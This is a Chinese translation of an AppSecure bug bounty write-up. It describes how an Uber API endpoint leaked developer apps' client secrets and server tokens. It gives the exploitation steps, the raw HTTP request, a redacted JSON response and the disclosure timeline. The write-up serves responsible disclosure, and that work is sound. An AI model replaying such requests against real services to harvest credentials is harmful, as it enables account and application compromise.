

# 赏金报告:我们如何发现优步的开发者应用程序泄露客户机密和…

> 原文：<https://www.freecodecamp.org/news/leakage-of-client-secret-server-tokens-of-all-uber-developer-applications-657d9d7fd30e/>

通过 AppSecure

# 赏金报告:我们是如何发现优步的开发者应用程序泄露客户机密和服务器令牌的

Photo by [John Petalcurin](https://unsplash.com/photos/mHx5LAKkkMo?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) on [Unsplash](https://unsplash.com/search/photos/computer?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)

根据负责任的信息披露政策，经优步许可，本文得以出版。

这篇博文中详细描述的漏洞是由 [AppSecure](https://appsecure.in) 团队的[阿南德·普拉卡什](https://twitter.com/sehacure)和[玛尼莎·桑万](https://www.linkedin.com/in/manisha-sangwan-98b9244a/)披露的。优步的工程小组很快堵住了这个漏洞。

这篇文章是关于 riders.uber.com 上的一个信息泄漏漏洞，其中我们发现了一个名为[https://riders.uber.com/profile](https://riders.uber.com/profile)的公共 API 端点，它可以为帐户所有者授权访问其优步帐户的应用程序发回服务器令牌和客户端机密。

根据优步的[文件](https://developer.uber.com/docs/businesses/guides/authentication):

> *“你的应用程序的秘密，这应该像你的应用程序的密码一样对待。不要与任何人分享，不要把它签入源代码，也不要在任何公共论坛上发表。此外，这不应该分布在客户端设备上，用户可以反编译您的代码和访问的秘密。如果您怀疑您的 client_secret 已经泄露，您可以在您的应用程序的仪表板中生成一个新的，这将立即使旧的机密无效。”*

攻击者可以通过将其帐户连接到生产环境中的任何优步应用程序，然后使用配置文件端点在 API 响应中检索所连接应用程序的服务器令牌和客户端机密，来轻松利用这一点。

据报道，优步已通过从 API 响应中删除此数据修复了此问题。优步公开向所有开发者通报了这一漏洞，并要求开发者定期轮换机密。

Notification sent by Uber to developers.

### 关于优步

优步是一家运输网络公司(TNC ),总部位于加利福尼亚州的三藩市。优步提供的服务包括点对点拼车、出租车叫车、送餐和自行车共享系统。该公司在全球 785 个大都市地区开展业务。根据彭博的报告，优步的估值超过 1000 亿美元。

### 我的利用是如何一步一步实现的

#### 第一步

攻击者使用 OAuth 将一个随机的优步开发人员应用程序连接到他们的帐户。优步开发者应用的几个例子是 [IFTTT](https://eng.uber.com/ifttt-uber-automation/) 、 [Payfare](https://uber-developers.news/uber-and-payfare-partner-to-pay-driver-partners-right-away-eec7a1f5335c?source=rss----49ee238f1dea---4&gi=e6336207cb0e) 和 [Bixby](https://uber-developers.news/uber-and-samsung-team-up-to-leverage-contextual-awareness-on-galaxy-s8-and-s8-935f5b5dbab8) 。到目前为止，这还不是一个复杂的过程。

#### **第二步**

一旦上述应用程序被攻击者连接到他们的优步帐户，他们就可以针对端点使用，使用攻击者的会话数据来获取开发人员应用程序的机密数据和应用程序的其他重要信息。

**易受攻击的优步 API:**

`POST /api/getAuthorisedApps HTTP/1.1`
`Host: riders.uber.com`
`User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:62.0) Gecko/20100101 Firefox/62.0`
`Accept: */*`
`Accept-Language: en-US,en;q=0.5`
`Accept-Encoding: gzip, deflate`
`Referer: [https://riders.uber.com/profile](https://riders.uber.com/profile)`
`content-type: application/json`
`x-csrf-token: XXX`
`origin: [https://riders.uber.com](https://riders.uber.com)`
`Content-Length: 2`

**API 响应中数据泄露:**

`{“status”:”success”,”data”:{“data”:{“uuid”:”xxxx”},”clientScopes”:{“authorizedClientScopes”:[{“clientID”:”xxx”,”scopes”:[“history”,”offline_access”,”profile”]}]},”scopeDetails”:[{“applicationDetails”:{“applicationID”:”xxx”,”owner”:{“userUUID”:”xxxx”,”userEmail”:””},”applicationSecret”:”xxx”,”name”:”xxx”,”description”:”abc”,”privacyPolicyURL”:”[https://appsecure.in](https://appsecure.in)","surgeConfirmedRedirectURI":"","webhookURL":"","applicationType":"","requestsPerHour":{"low":0,"high":0,"unsigned":false},"redirectURIs":["xxxxxx"],"appSignatures":[],"defaultScopes":["history","profile"],"whitelistedScopes":[],"originURIs":[],"serverTokens":["xxx"],"ipWhitelist":[],"admins":[{"userUUID":"xxxx","userEmail":""},{"userUUID":"xxxx","userEmail":""},{"userUUID":"xxxx","userEmail":""}],"developers":[{"userUUID":"xxxx","userEmail":""}],"tags":[],"oauthEnabled":false,"smsVerificationEnabled":false,"cobrandingEnabled":false,"supplyOnly":false,"isInternal":true,"cobrandingDetails":{"nativeURL":"","androidFallbackURL":"","iosFallbackURL":"","displayName":"","linkName":"","logoUUID":"","logoFiletype":"","generatedLogoURL":""},"availableScopes":["delivery","history","history_lite","places","profile","ride_widgets"],"openScopes":["delivery","history","history_lite","places","profile","ride_widgets"],"developerScopes":["all_trips","request","request_receipt"],"createdAt":{"low":xxx,"high":0,"unsigned":false},"updatedAt":{"low":xxx,"high":0,"unsigned":false},"displayName":null,"iconURL":null,"publicDescription":null,"appGalleryDetails":{"mobilePlatforms":[],"publicationState":"","redirectURI":"xxxx","permissionState":""}},"permissions":null,"userRoleInvitations":null}]}}`

#### **披露时间表**

**2018 年 10 月 5 日:**报告发送给优步的安全团队。

**2018 年 11 月 6 日:**问题由优步解决。AppSecure 要求优步通知所有开发者，以防他们的应用程序秘密不再保密。我们验证了修复。

2018 年 12 月 20 日:优步回答说，“他们正在通知开发商，并为这个问题制定长期解决方案。”

2019 年 2 月 8 日:优步奖励了我们 5000 美元，并通过电子邮件通知了所有开发者。在采取行动后，该问题被公开披露。